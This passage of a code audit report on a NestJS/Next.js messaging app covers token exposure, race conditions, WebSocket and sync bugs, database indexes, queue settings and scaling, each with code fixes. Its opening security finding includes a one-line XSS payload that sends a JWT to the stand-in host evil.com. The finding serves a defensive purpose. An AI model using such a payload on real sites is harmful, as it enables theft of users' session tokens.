The whole point of HttpOnly cookies is that JavaScript cannot read them. This endpoint undoes that security property by returning the token as a JSON body.

**Real-world scenario:**  
A stored XSS in a user-submitted field (e.g., enquiry tag or contact note) executes:
```javascript
fetch('/api/socket').then(r=>r.json()).then(d=>fetch('https://evil.com/?t='+d.token));
```
Attacker gets a valid JWT with no expiry awareness.

**Fix:**  
Use a short-lived (60s) one-time token specifically for WebSocket auth, not the session JWT.

```typescript
// POST /api/auth/ws-nonce — generates a 60s nonce stored in Redis
// Gateway validates nonce, exchanges for user identity, deletes nonce
```

---

## 6. Race Conditions

---

### 6.1 Auto-save Timer vs Send — Concurrent Draft Mutations

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:505–568`

**What breaks:**  
Silent 400 errors on draft updates, phantom drafts in the DB, message send failures.

**Why it breaks:**  
The `scheduleSave` sets a 3-second `setTimeout`. The `handleSend` function creates or updates the same draft. They share `draftIdRef` but operate concurrently with no lock:

```
T=0:    User clicks send. handleSend() starts. draftIdRef.current = null.
T=0ms:  handleSend: no draft → createDraft() call in flight.
T=10ms: scheduleSave timer fires (from last keystroke 3010ms ago).
         draftIdRef.current is still null → scheduleSave also calls createDraft().
T=100ms: Both createDraft() calls hit the upsert.
         Prisma upsert uses unique key (enquiryId, channel, userId, ACTIVE).
         One wins, one gets the existing record. draftIdRef.current is race-set.
T=200ms: handleSend's createDraft returns draft A.
         draftIdRef.current = A.
T=201ms: handleSend calls sendDraft(A) → server marks A as CLEARED.
         draftIdRef.current = null.
T=210ms: scheduleSave's createDraft returns draft B (or A).
         draftIdRef.current = B.
T=220ms: scheduleSave calls updateDraft(B, ...) — but now B is the only active draft.
         Or: updateDraft(A, ...) → server returns 400 (draft not ACTIVE).
         catch {} — silently swallowed.
```

**Real-world scenario:**  
User quickly types a long email and hits send. 3 seconds ago they typed the last character. As they hit send, the auto-save fires simultaneously. The 400 error is silently swallowed. On rare timing, the draft gets stuck in ACTIVE state even though the message was sent, causing a stale draft to appear next time the user opens the conversation.

**Fix:**

```typescript
// Use a sending semaphore
const isSendingRef = useRef(false);

const scheduleSave = useCallback(() => {
  if (isSendingRef.current) return; // Don't save during send
  // ...
}, [enquiryId, channel, subject, body]);

const handleSend = async () => {
  if (!canSend || !enquiryId) return;
  isSendingRef.current = true;
  if (autoSaveTimer.current) clearTimeout(autoSaveTimer.current); // Cancel pending save
  setSending(true);
  try {
    // ... send logic
  } finally {
    isSendingRef.current = false;
    setSending(false);
  }
};
```

---

### 6.2 `getSocket()` — No Lock for Concurrent Callers

**File:** `frontend/lib/socket.ts:14`

**What breaks:**  
Multiple Socket.IO connections created to the same server. Each connection consumes a file descriptor and server memory. Events may be received twice (duplicate listeners).

**Why it breaks:**  

```typescript
export async function getSocket(): Promise<Socket> {
  if (socket?.connected) return socket;  // ← Only returns early if CONNECTED
  // ...fetch token...
  socket = io(...);  // ← Creates new instance
  return socket;
}
```

When `ChatView` and `ContactList` both mount simultaneously (which they do — they're siblings in the layout):
```
Component A: getSocket() → socket is null → starts fetch
Component B: getSocket() → socket is null → starts fetch (same tick!)
Both create separate io() connections.
Both call socket = io(...) — the second assignment clobbers the first.
First socket is orphaned: never disconnected, listeners never cleaned up.
```

The race window is between `io()` being called and the `connect` event firing. During that window, `socket.connected` is `false`, so any concurrent caller creates a new connection.

**Fix:**

```typescript
let socket: Socket | null = null;
let connectionPromise: Promise<Socket> | null = null;

export function getSocket(): Promise<Socket> {
  if (socket?.connected) return Promise.resolve(socket);
  if (connectionPromise) return connectionPromise;

  connectionPromise = (async () => {
    const res = await fetch('/api/socket');
    if (!res.ok) throw new Error('Not authenticated');
    const { token } = await res.json();
    
    socket = io('http://localhost:3001', { auth: { token }, ... });
    
    await new Promise<void>((resolve, reject) => {
      socket!.once('connect', resolve);
      socket!.once('auth-error', () => reject(new Error('Auth failed')));
      socket!.once('connect_error', reject);
    });
    
    connectionPromise = null;
    return socket!;
  })();

  connectionPromise.catch(() => { connectionPromise = null; });
  return connectionPromise;
}
```

---

### 6.3 Delivery Status Regression — Late Webhook Downgrades Status

**File:** `backend/src/modules/outbound/outbound.service.ts:141`

**What breaks:**  
A message that has been READ can be downgraded to DELIVERED or SENT by a late-arriving webhook. The frontend would then show single-tick (✓) when it should show double-blue-tick (✓✓).

**Why it breaks:**  
```typescript
async updateDeliveryStatus(messageId: string, status: DeliveryStatus): Promise<void> {
  await this.prisma.conversationMessage.update({
    where: { id: messageId },
    data: { deliveryStatus: status },  // No guard against regression
  });
```

Webhook ordering from Twilio is not guaranteed. A `delivered` webhook can arrive after a `read` webhook due to network delays. The status enum has a natural ordering: `PENDING < SENT < DELIVERED < READ`.

**Real-world scenario:**  
WhatsApp sends `read` webhook at T=100ms (customer read the message). At T=150ms Twilio also sends `delivered`. Both arrive in quick succession. If `delivered` lands second, it overwrites `read`. Blue ticks become grey ticks. Looks like the message was read then "unread" — impossible, confusing to staff.

**Fix:**

```typescript
const STATUS_RANK: Record<DeliveryStatus, number> = {
  PENDING: 0, SENT: 1, DELIVERED: 2, READ: 3, FAILED: -1,
};

async updateDeliveryStatus(messageId: string, status: DeliveryStatus): Promise<void> {
  const data = { deliveryStatus: status, ... };
  
  // Only advance — never go backward
  const updated = await this.prisma.conversationMessage.updateMany({
    where: {
      id: messageId,
      // SQL: current rank < new rank
      deliveryStatus: {
        in: Object.entries(STATUS_RANK)
          .filter(([, rank]) => rank < STATUS_RANK[status])
          .map(([s]) => s as DeliveryStatus),
      },
    },
    data,
  });
  
  if (updated.count === 0) {
    this.logger.debug(`Status ${status} ignored for ${messageId} — already at higher state`);
    return;
  }
  // emit event...
}
```

---

### 6.4 Optimistic Append + Socket Event = Potential Duplicate Message

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:454–469` (onMessageSent callback) and `231–251` (onNewMessage handler)

**What breaks:**  
In rare timing, the same message appears twice in the chat thread.

**Why it breaks:**  
```typescript
// onMessageSent (called synchronously after sendDraft returns):
setThread(prev => ({
  ...prev,
  enquiries: prev.enquiries.map(enq => ({
    ...enq,
    messages: [...enq.messages, msg],  // ← appended, NO dedup check
  })),
}));

// onNewMessage socket handler (from chat:new-message event):
if (enq.messages.some(m => m.id === data.message.id)) return enq; // ← dedup check exists
```

The socket event `chat:new-message` fires when an inbound message arrives. For outbound messages sent by the current user via the OutboundProcessor path, the backend presumably also emits `chat:new-message` to the room (this is how the contact list gets notified). If this event fires BEFORE `sendDraft` resolves (which is possible on a fast local machine), the sequence is:

```
T=0:   sendDraft() HTTP in flight
T=50:  BullMQ picks up job (co-located), processes, emits chat:new-message via socket
T=60:  Frontend onNewMessage fires → message appended (no dedup yet since not in state)
T=100: sendDraft() HTTP returns → onMessageSent() → message appended AGAIN
Result: duplicate
```

**Fix:**  
Add a dedup check in `onMessageSent` using a `Set` of already-rendered message IDs:

```typescript
const onMessageSent = (msg: ThreadMessage) => {
  setThread(prev => {
    if (!prev || !activeEnquiry) return prev;
    const updated = prev.enquiries.map(enq => {
      if (enq.enquiryId !== activeEnquiry.enquiryId) return enq;
      if (enq.messages.some(m => m.id === msg.id)) return enq; // dedup
      return { ...enq, messages: [...enq.messages, msg], messageCount: enq.messageCount + 1 };
    });
    return { ...prev, enquiries: updated };
  });
};
```

---

## 7. WebSocket Lifecycle Problems

---

### 7.1 Socket Instance Not Cleaned Up on Disconnect

**File:** `frontend/lib/socket.ts:47`

**What breaks:**  
When the socket disconnects (network blip, server restart), the global `socket` variable still holds the disconnected instance. The next `getSocket()` call sees `socket?.connected === false` and creates a NEW socket, but the old one is never destroyed.

**Why it breaks:**  
```typescript
socket.on('disconnect', (reason) => {
  console.log('🔌 WebSocket disconnected:', reason);
  // socket = null is NOT set here
});
```

The `disconnect` event fires but `socket` is not nulled out. With `reconnection: true`, Socket.IO also tries to reconnect internally. So two reconnection paths compete:
1. Socket.IO's built-in reconnection (using the old instance)
2. Any component calling `getSocket()` again (creates a new instance)

This results in two active connections if the component remounts during reconnection.

**Fix:**  
Centralize connection lifecycle:

```typescript
socket.on('disconnect', (reason) => {
  if (reason === 'io server disconnect') {
    // Server kicked us — don't auto-reconnect, re-auth first
    socket = null;
    connectionPromise = null;
  }
  // For transport errors: let Socket.IO built-in reconnect handle it
  // Don't null socket here — the reconnect handlers need it
});

socket.on('reconnect', () => {
  // Re-join all rooms
  roomRegistry.forEach(roomId => socket?.emit('enquiry:join', { enquiryId: roomId }));
});
```

---

### 7.2 ContactList Socket Listener Reinstalled on Every Search Keystroke

**File:** `frontend/components/dashboard/Messaging/ContactList.tsx:63`

**What breaks:**  
- `sock.off('contact-list:update')` removes ALL listeners for that event (not just the component's own listener) every time the user types in the search box.
- Since this is a singleton socket shared across components, if another component also listens to `contact-list:update`, it gets deregistered too.

**Why it breaks:**  
```typescript
useEffect(() => {
  let mounted = true;

  async function setupSocket() {
    const sock = await getSocket();
    sock.on('contact-list:update', (data) => { ... });
  }

  setupSocket();

  return () => {
    mounted = false;
    socketRef.current?.off('contact-list:update'); // Removes ALL listeners for this event
  };
}, [search]); // ← Fires on every keystroke
```

`sock.off(eventName)` with no callback argument removes ALL listeners for that event name. With a debounced search (300ms), typing "Ahmad" (5 chars) registers and deregisters the listener 5 times. Each registration could overlap the previous async setup (no dedup on the socket call).

**Fix:**  

```typescript
useEffect(() => {
  let mounted = true;
  let sock: Socket;

  const handler = (data: { conversations: ConversationPreview[] }) => {
    if (!mounted || search.trim()) return;
    setConversations(data.conversations);
  };

  async function setup() {
    sock = await getSocket();
    if (!mounted) return;
    socketRef.current = sock;
    sock.on('contact-list:update', handler);
  }

  setup();

  return () => {
    mounted = false;
    sock?.off('contact-list:update', handler); // ← Removes ONLY this specific handler
  };
}, [search]);
```

---

### 7.3 `chat:new-message` is Listened on Global Socket, Not Room

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:312`

**What breaks:**  
Every `ChatView` instance receives `chat:new-message` for ALL contacts, not just the currently displayed contact. The filter `if (data.contactId !== contactId) return;` provides client-side filtering, but events are still being delivered to every client for every message.

**Why it breaks:**  
The frontend never calls `enquiry:join` on the `ChatView` component (only `EnquiryDetailClient` does, per the exploration). So `outbound:sent` and `outbound:delivery_updated` are never received by `ChatView`, but `chat:new-message` apparently fires on the global socket (broadcast to all clients rather than to a room).

**Real-world scenario:**  
A team of 20 agents, each with a ChatView open. Every inbound message is delivered 20 times via WebSocket (once per agent connection). At 1000 messages/hour, that's 20,000 WebSocket payloads/hour with no room scoping benefit.

**Fix:**  
Join a contact-scoped room, not just an enquiry-scoped room:

```typescript
// Backend: emit to contact room
server.to(`contact:${contactId}`).emit('chat:new-message', payload);

// Frontend ChatView: join contact room
sock.emit('contact:join', { contactId });
```

---

## 8. Real-time Sync Problems

---

### 8.1 ChatView Never Joins Enquiry Room

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx`

**What breaks:**  
The `outbound:sent` and `outbound:delivery_updated` events are emitted to `enquiry:{enquiryId}` rooms. `ChatView` never calls `enquiry:join`, so it never receives these events. Delivery status indicators (✓ / ✓✓) never update in real-time on the main messaging page.

**Why it breaks:**  
Looking at both gateway (`outbound.gateway.ts:57`) and view (`ChatView.tsx:312`):

- Gateway: `this.server.to('enquiry:X').emit('outbound:sent', payload)` — room-targeted
- ChatView: `sock.on('outbound:sent', handler)` — listens globally ← this only works if emit is broadcast, but it's room-targeted

Room-targeted emits are NOT received by clients not in the room. The client must explicitly join.

**Fix:**  
Add room join/leave logic to ChatView, keyed on the active enquiry:

```typescript
// ChatView.tsx — in socket setup useEffect
const activeEnquiryId = thread?.enquiries[0]?.enquiryId;
if (activeEnquiryId) {
  sock.emit('enquiry:join', { enquiryId: activeEnquiryId });
}

return () => {
  mounted = false;
  if (activeEnquiryId) {
    sock?.emit('enquiry:leave', { enquiryId: activeEnquiryId });
  }
  offFns.forEach(fn => fn());
};
```

---

### 8.2 `contact-list:update` Event Has No Backend Emitter

**File:** `frontend/components/dashboard/Messaging/ContactList.tsx:72`

**What breaks:**  
The contact list sidebar NEVER updates in real-time when a new message arrives. The promise of a live "WhatsApp-like" contact list is broken. Users must refresh the page or type a search query to see new conversations.

**Why it breaks:**  
A full-text search of the backend codebase shows zero instances of `emit('contact-list:update', ...)` or `emit('contact-list:update')`. The listener in `ContactList.tsx` is a stub waiting for a signal that will never come.

**Real-world scenario:**  
Staff Agent A is looking at the contact list. A new enquiry arrives from a customer. The contact list doesn't update. Agent A continues working on old leads, unaware of the new high-priority lead sitting in the DB. Customer waits.

**Fix (backend):**  
Add a gateway or service that emits `contact-list:update` when an inbound message creates or updates a conversation. This needs a broadcast to the **team room** (all connected agents), not an enquiry room:

```typescript
// In inbound message handler / enquiry.service.ts, after new message processed:
// 1. Fetch updated conversation list (or just the changed item)
// 2. Emit to a 'team' room

// outbound.gateway.ts — add listener for inbound events
@OnEvent('inbound.message.processed')
async onInboundMessage(payload: { updatedConversations: ConversationPreview[] }) {
  this.server.emit('contact-list:update', { conversations: payload.updatedConversations });
}
```

But note: broadcasting the full list to all clients on every message is wasteful at scale. Proper approach: emit a delta `{ upserted: [preview], removed: [] }` and merge client-side.

---

### 8.3 Auto-scroll on Every State Mutation

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:334`

**What breaks:**  
When a delivery status update arrives (single-tick → double-tick), the `thread` state changes, triggering the auto-scroll `useEffect`. If the user has scrolled up to read history, they are violently scrolled back to the bottom.

**Why it breaks:**  
```typescript
useEffect(() => {
  if (!loading && thread) {
    bottomRef.current?.scrollIntoView({ behavior: 'smooth' });
  }
}, [thread, loading]); // fires on ANY thread change, including delivery status updates
```

**Fix:**  
Only auto-scroll for genuine new messages, not status updates:

```typescript
const prevMessageCountRef = useRef(0);

useEffect(() => {
  if (!loading && thread) {
    const currentCount = thread.enquiries.reduce((s, e) => s + e.messages.length, 0);
    if (currentCount > prevMessageCountRef.current) {
      bottomRef.current?.scrollIntoView({ behavior: 'smooth' });
    }
    prevMessageCountRef.current = currentCount;
  }
}, [thread, loading]);
```

---

### 8.4 Unread Count Has No Persistent Backing

**File:** `frontend/components/dashboard/Messaging/ContactList.tsx:134`

**What breaks:**  
Unread counts reset to zero on page refresh. A user who has 5 unread messages, refreshes the page, and sees 0 unread badges. The count also doesn't sync across multiple browser tabs.

**Why it breaks:**  
```typescript
// ContactList.tsx receives unreadContacts as a prop
// The parent component manages this as local state
// Nothing persists it to the server
unreadCounts?: Record<string, number>
```

The unread count is purely client-side state. There's no `lastReadAt` per-user-per-conversation in the database. No server-side unread tracking.

**Fix:**  
Two-phase approach:
1. Add `ConversationRead` model: `(userId, enquiryId, lastReadAt)`
2. Compute unread count as `ConversationMessage.count({ where: { createdAt: { gt: lastReadAt }, direction: INBOUND } })`
3. Socket event `read-receipt:update` triggers server-side `lastReadAt` update

---

## 9. State Management Problems

---

### 9.1 Thread State Has No Pagination — Full History Loaded

**File:** `frontend/services/dashboard/conversation.services.ts:90`

**What breaks:**  
For contacts with years of conversation history (100+ enquiries, 10,000+ messages), the initial `getConversationThread()` call fetches the entire history. The API call takes seconds. The JS thread parses a multi-MB JSON payload. The React reconciler re-renders thousands of DOM nodes.

**Why it breaks:**  
```typescript
export async function getConversationThread(contactId: string): Promise<ConversationThread> {
  return apiClient<ConversationThread>(API.CONVERSATION.THREAD(contactId));
  // Returns ALL enquiries with ALL messages, no pagination
}
```

**Real-world scenario:**  
A long-standing customer with 2 years of WhatsApp conversation history opens their thread. The browser receives a 4MB JSON payload. Mobile phones with 2GB RAM OOM-kill the tab. Even on desktop, the initial render takes 3+ seconds.

**Fix:**  
- Load the 3 most recent enquiries initially, with "load more" pagination
- Use virtual scrolling (`react-virtual`) for message rendering
- Separate the contact list fetch (summary only) from the thread fetch (messages)

---

### 9.2 Enquiry Array Ordering Is Assumed But Never Guaranteed

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:358`

**What breaks:**  
`activeEnquiry` (used for the composer) is always `thread.enquiries[0]`. If the backend returns enquiries oldest-first, `[0]` is the oldest, closed enquiry. The user composes messages against a CLOSED_LOST enquiry, not the active one.

**Why it breaks:**  
```typescript
const activeEnquiry = thread.enquiries[0]; // Assumes index 0 = most recent
// ...
[...thread.enquiries].reverse().map((enq) => (...)) // Reversed for display
```

The backend's `getConversationThread` is called via a service function but the ordering is never validated or enforced. If the DB returns enquiries in insertion order (PostgreSQL default: generally but not guaranteed), this works — but any query plan change could break it silently.

**Fix:**  
```typescript
// Sort defensively on the client
const sortedEnquiries = [...thread.enquiries].sort(
  (a, b) => new Date(b.createdAt).getTime() - new Date(a.createdAt).getTime()
);
const activeEnquiry = sortedEnquiries.find(e => !['CONVERTED', 'CLOSED_LOST'].includes(e.status))
  ?? sortedEnquiries[0];
```

---

### 9.3 Stale `unseenChannels` After Socket Reconnect

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:173`

**What breaks:**  
During a socket disconnect, new messages on non-active channels arrive. After reconnect, the `unseenChannels` dots do not reflect the missed messages. The user has no indication they missed Email messages while viewing WhatsApp.

**Why it breaks:**  
`unseenChannels` is local `useState` — it only accumulates dots from socket events received during this session. Messages missed during disconnection are invisible.

**Fix:**  
On reconnect (or initial load), compute unseen channels from the thread data by comparing message `createdAt` timestamps against a locally-stored `lastSeenAt` per channel.

---

## 10. Database Bottlenecks

---

### 10.1 Missing Composite Index for Outbound Message Queries

**File:** `backend/prisma/schema.prisma:437`

**What breaks:**  
The query in `OutboundController.getOutboundMessages()` filters by `{ enquiryId, direction: 'OUTBOUND' }`. PostgreSQL must full-scan all messages for an enquiry and then filter by direction.

**Why it breaks:**  
```prisma
model ConversationMessage {
  @@index([enquiryId, createdAt])  // Can use for enquiryId lookup
  @@index([externalId])
  // MISSING: @@index([enquiryId, direction, createdAt])
}
```

The query:
```typescript
this.prisma.conversationMessage.findMany({
  where: { enquiryId, direction: 'OUTBOUND' },
  orderBy: { createdAt: 'desc' },
```

Uses the `(enquiryId, createdAt)` index for the `enquiryId` predicate but then does a filter + sort scan for `direction`. For enquiries with 10,000 mixed messages, this scans 10,000 rows to find 500 outbound ones.

**Fix:**  
```prisma
@@index([enquiryId, direction, createdAt])
```

---

### 10.2 `updateDeliveryStatusByExternalId` Uses `findFirst` Without Index Guarantee

**File:** `backend/src/modules/outbound/outbound.service.ts:124`

**What breaks:**  
High-volume webhook processing becomes slow as `findFirst({ where: { externalId } })` must scan across all messages.

**Why it breaks:**  
```typescript
const msg = await this.prisma.conversationMessage.findFirst({
  where: { externalId },
});
```

`externalId` has an index `@@index([externalId])`, but `findFirst` does not use a unique constraint — it returns the first match. Without `findUnique`, Prisma cannot guarantee index-only lookup. The underlying SQL is `SELECT ... WHERE externalId = $1 LIMIT 1`, which DOES use the index, but there's a semantic issue: if `externalId` is not unique (shouldn't be, but there's no unique constraint), duplicate records are silently hidden.

**Fix:**  
Add a unique constraint and use `findUnique`:
```prisma
externalId String? @unique  // WhatsApp MessageSid / SendGrid message-id is globally unique
```

---

### 10.3 SendGrid Webhook Processes Events Sequentially

**File:** `backend/src/modules/outbound/delivery/delivery-tracking.service.ts:38`

**What breaks:**  
A high-volume email blast generates hundreds of delivery events batched in a single webhook. Sequential `await` processing delays the response, risking a 30-second SendGrid webhook timeout.

**Why it breaks:**  
```typescript
for (const event of events) {
  await this.outboundService.updateDeliveryStatusByExternalId(externalId, status);
  // Each call: DB findFirst + DB update + eventEmitter.emit
}
```

For a batch of 100 events, if each DB operation takes 5ms, total = 500ms. For 1000 events: 5 seconds. SendGrid will retry if no 2xx within 30s, causing duplicate processing.

**Fix:**  
```typescript
// Process in parallel with a concurrency limit
async handleSendGridDelivery(events: Array<Record<string, any>>): Promise<void> {
  const CONCURRENCY = 20;
  
  for (let i = 0; i < events.length; i += CONCURRENCY) {
    const batch = events.slice(i, i + CONCURRENCY);
    await Promise.all(
      batch.map(async (event) => {
        const externalId = event.sg_message_id?.split('.')[0];
        const status = this.mapSendGridEvent(event.event);
        if (externalId && status) {
          await this.outboundService.updateDeliveryStatusByExternalId(externalId, status);
        }
      })
    );
  }
}
```

---

### 10.4 Draft Expiry Never Enforced

**File:** `backend/prisma/schema.prisma:542`

**What breaks:**  
Expired drafts pile up in the database indefinitely. The `expiresAt` field and the `@@index([expiresAt, status])` index exist but no cleanup job runs.

**Why it breaks:**  
There is no background job that sets `status = EXPIRED` where `expiresAt < NOW()`. The index exists as if cleanup was planned but never implemented (confirmed by `DraftStatus.EXPIRED` being defined but never set anywhere in the codebase).

**Real-world scenario:**  
After 6 months of usage with 50 daily active users each creating 10 drafts/day, there are 90,000 ACTIVE drafts in the table that should be EXPIRED. The upsert for new drafts must scan this table. The unique constraint lookup becomes slower.

**Fix:**  
Add a BullMQ cron job or a `@Cron` NestJS scheduler:

```typescript
@Cron('0 * * * *') // every hour
async expireOldDrafts() {
  await this.prisma.outboundDraft.updateMany({
    where: { status: DraftStatus.ACTIVE, expiresAt: { lt: new Date() } },
    data: { status: DraftStatus.EXPIRED },
  });
}
```

---

## 11. Redis / Queue Issues

---

### 11.1 BullMQ Processor Has No Concurrency Configuration

**File:** `backend/src/modules/outbound/outbound.processor.ts:31`

**What breaks:**  
Only one job processed at a time per worker. Throughput ceiling is approximately `1000ms / avg_api_latency`. With Twilio's typical 300ms latency, max throughput is ~3.3 messages/second = ~200/minute — the absolute minimum for even a small team.

**Why it breaks:**  
```typescript
@Processor(OUTBOUND_QUEUE)  // No concurrency option
export class OutboundProcessor extends WorkerHost {
```

BullMQ default concurrency is 1. The `WorkerHost` base class must have concurrency passed to the worker options.

**Fix:**  
```typescript
@Processor(OUTBOUND_QUEUE, { concurrency: 20 })
export class OutboundProcessor extends WorkerHost {
```

At concurrency 20, throughput becomes 60+ messages/second. Note: also add per-channel rate limiting to respect Twilio (1 msg/sec per number by default) and SendGrid (100 req/s) limits.

---

### 11.2 No Redis Adapter for Socket.IO — Single-Instance Trap

**File:** `backend/src/modules/outbound/outbound.module.ts` (missing)

**What breaks:**  
Under horizontal scaling (load balancer → 2+ NestJS instances), WebSocket events only reach clients connected to the SAME instance that processed the BullMQ job. At 50% probability, a user misses delivery updates.

**Why it breaks:**  
NestJS Socket.IO gateway defaults to the in-memory adapter. `this.server.to(room).emit()` only reaches clients on the local process. Redis `OUTBOUND_QUEUE` is already being used for BullMQ — the same Redis can serve as Socket.IO pub/sub.

**Real-world scenario:**  
Your team grows to 20 agents. You add a second server to handle load. Agent A is connected to Server 1. A BullMQ job runs on Server 2 and emits `outbound:sent` — it broadcasts to Server 2's in-memory rooms. Agent A never sees the delivery confirmation. They resend the message, now the customer gets it twice.

**Fix:**

```typescript
// outbound.module.ts
import { RedisIoAdapter } from './adapters/redis-io.adapter';

// main.ts
const redisIoAdapter = new RedisIoAdapter(app, configService);
await redisIoAdapter.connectToRedis();
app.useWebSocketAdapter(redisIoAdapter);

// redis-io.adapter.ts
import { IoAdapter } from '@nestjs/platform-socket.io';
import { createAdapter } from '@socket.io/redis-adapter';
import { createClient } from 'redis';

export class RedisIoAdapter extends IoAdapter {
  private adapterConstructor: ReturnType<typeof createAdapter>;

  async connectToRedis(): Promise<void> {
    const pubClient = createClient({ url: process.env.REDIS_URL });
    const subClient = pubClient.duplicate();
    await Promise.all([pubClient.connect(), subClient.connect()]);
    this.adapterConstructor = createAdapter(pubClient, subClient);
  }

  createIOServer(port: number, options?: any) {
    const server = super.createIOServer(port, options);
    server.adapter(this.adapterConstructor);
    return server;
  }
}
```

---

### 11.3 `retryMessage` Re-emits Event Synchronously

**File:** `backend/src/modules/outbound/outbound.service.ts:108`

**What breaks:**  
`retryMessage` calls `this.handleOutbound(...)` directly (not via `eventEmitter.emit`). This bypasses the event system's async dispatch and runs the BullMQ enqueue synchronously within the HTTP request handler. If BullMQ's Redis is slow, the user's retry HTTP request hangs.

**Why it breaks:**  
```typescript
async retryMessage(messageId: string): Promise<void> {
  // ...reset to PENDING...
  await this.handleOutbound({  // ← direct call, not event emission
    messageId, enquiryId, channel, to, content, ...
  });
}
```

`handleOutbound` does `await this.outboundQueue.add(...)` — a Redis network call. This is fine normally but:
1. The HTTP response is blocked until Redis acknowledges the job
2. If Redis is down, the retry endpoint returns 500 (instead of queuing to a dead-letter)

**Fix:**  
Use the event emitter consistently:
```typescript
this.eventEmitter.emit('message.outbound', { messageId, enquiryId, channel, to, content });
```

---

## 12. Memory Leaks

---

### 12.1 Orphaned Socket Instances

**File:** `frontend/lib/socket.ts`

As described in §6.2, concurrent calls to `getSocket()` can create multiple Socket.IO instances. Each instance:
- Maintains a TCP/WebSocket connection
- Holds event listener references
- Allocates internal buffers for pending acknowledgements

These orphaned instances are never garbage collected because the Socket.IO client library holds internal references. Over a long session (browser tab open for 8 hours), a team of 20 agents could each have 3-5 orphaned connections, consuming server file descriptors.

**Memory profile:**  
Each Socket.IO connection uses ~2KB client-side and ~50KB server-side (NestJS Socket.IO instance with room tracking). At 20 agents × 5 orphaned connections = 100 extra server connections × 50KB = 5MB of extra server memory per deploy.

---

### 12.2 `newMessageIds` Set Grows Without Bound on Fast Arrivals

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:261`

**What breaks:**  
Under high-frequency message arrival, the `setTimeout` cleanup for `newMessageIds` may not keep pace. Over a 60-minute session, thousands of IDs accumulate in a Set that is never fully cleared.

**Why it breaks:**  
```typescript
setNewMessageIds(prev => new Set(prev).add(data.message.id));
setTimeout(() => {
  setNewMessageIds(prev => {
    const next = new Set(prev);
    next.delete(data.message.id);
    return next;
  });
}, 1000);
```

Each new message creates a 1-second `setTimeout`. At 100 messages/minute, there are 100 live timers at any given moment. Each timer closes over `data.message.id`. In practice, the cleanup works correctly — but each timer is a GC root until it fires, and each Set copy on state update is a new allocation.

**Fix:**  
Use a `Map<id, timestamp>` and clean up in a single interval:

```typescript
const newMessageTimestamps = useRef<Map<string, number>>(new Map());

// On new message:
newMessageTimestamps.current.set(data.message.id, Date.now());

// Single interval cleanup:
useEffect(() => {
  const interval = setInterval(() => {
    const now = Date.now();
    const toDelete = [...newMessageTimestamps.current.entries()]
      .filter(([, ts]) => now - ts > 1000)
      .map(([id]) => id);
    if (toDelete.length > 0) {
      toDelete.forEach(id => newMessageTimestamps.current.delete(id));
      setNewMessageIds(new Set(newMessageTimestamps.current.keys()));
    }
  }, 200);
  return () => clearInterval(interval);
}, []);
```

---

### 12.3 `scheduleSave` Callback Recreated on Every Keystroke

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:505`

**What breaks:**  
`scheduleSave` has `body` in its dependency array. Every keystroke creates a new function object. While React eventually GCs old ones, during active typing there are N live closure instances (one per character typed since last render cycle).

**Why it breaks:**  
```typescript
const scheduleSave = useCallback(() => {
  // ...
}, [enquiryId, channel, subject, body]); // body changes every keystroke
```

`useCallback` with frequently-changing dependencies is effectively the same as `() => {}` inline — it never actually caches.

**Fix:**  
Use a ref to always have the latest values, keeping the callback stable:

```typescript
const saveParamsRef = useRef({ enquiryId, channel, subject, body });
useEffect(() => { saveParamsRef.current = { enquiryId, channel, subject, body }; });

const scheduleSave = useCallback(() => {
  const { enquiryId, body, channel, subject } = saveParamsRef.current;
  if (!enquiryId || !body.trim()) return;
  if (autoSaveTimer.current) clearTimeout(autoSaveTimer.current);
  autoSaveTimer.current = setTimeout(async () => {
    // use saveParamsRef.current at fire time — always fresh
  }, 3000);
}, []); // stable — never recreated
```

---

## 13. Horizontal Scaling Blockers

---

### 13.1 Socket.IO In-Memory Adapter (Critical)

Covered in §11.2 with full fix. This is the most critical production blocker — the system is functionally broken under any load balancing setup.

---

### 13.2 NestJS EventEmitter is In-Process Only

**File:** `backend/src/modules/outbound/outbound.service.ts:37`

**What breaks:**  
The `@OnEvent('message.outbound')` listener in `OutboundService` only fires on the SAME NestJS instance that emitted the event. If `EnquiryService.addOutboundMessage()` runs on Instance 1, the event fires on Instance 1, which enqueues to Redis. That's fine. But if `OutboundGateway.onSent()` runs on Instance 2 (where the BullMQ worker ran), it emits to Instance 2's Socket.IO rooms — missing users on Instance 1.

The real fix chain:
1. BullMQ job processed on any instance → emits NestJS event
2. NestJS event → Gateway emits to Socket.IO
3. Socket.IO needs Redis adapter to cross-broadcast

With the Redis adapter (§11.2), step 3 is solved. Steps 1-2 remain per-instance, which is correct — each instance emits to its own Socket.IO server, and Redis pub/sub fans it out.

---

### 13.3 No Sticky Sessions Configured

**What breaks:**  
Socket.IO uses long-polling as a fallback transport (`transports: ['websocket', 'polling']`). HTTP polling requires sticky sessions (requests from the same client must hit the same server) to maintain Socket.IO session state. Without sticky sessions, polling clients break.

**Why it breaks:**  
```typescript
// socket.ts:26
socket = io('http://localhost:3001', {
  transports: ['websocket', 'polling'],  // polling is allowed
```

WebSocket upgrades are stateful and routed correctly. But during the upgrade negotiation (initial polling phase), if a load balancer round-robins the requests, the Socket.IO handshake fails.

**Fix:**  
Either disable polling (WebSocket only) or configure sticky sessions:
```typescript
transports: ['websocket'], // WebSocket only — simpler, better for production
```

---

## 14. Optimistic UI Issues

---

### 14.1 "Optimistic" Send Is Actually Synchronous — Latency Exposed

**File:** `frontend/components/dashboard/Messaging/ChatView.tsx:527`

**What breaks:**  
The UI is blocked during the send. The user sees the spinner (`⏳`) for the full round-trip: `createDraft` HTTP (if needed) + `updateDraft` HTTP + `sendDraft` HTTP = potentially 3 sequential HTTP requests × 100ms each = 300ms+ of spinner before the message appears in the thread.

**Why it breaks:**  
```typescript
const handleSend = async () => {
  setSending(true);
  
  if (!draftIdRef.current) {
    const d = await createDraft(...); // wait for HTTP
  } else {
    await updateDraft(...); // wait for HTTP
  }
  
  const sent = await sendDraft(...); // wait for HTTP
  
  onMessageSent(optimisticMsg); // only NOW does the message appear
  setBody('');
};
```

True optimistic UI would add the message immediately and reconcile on failure.

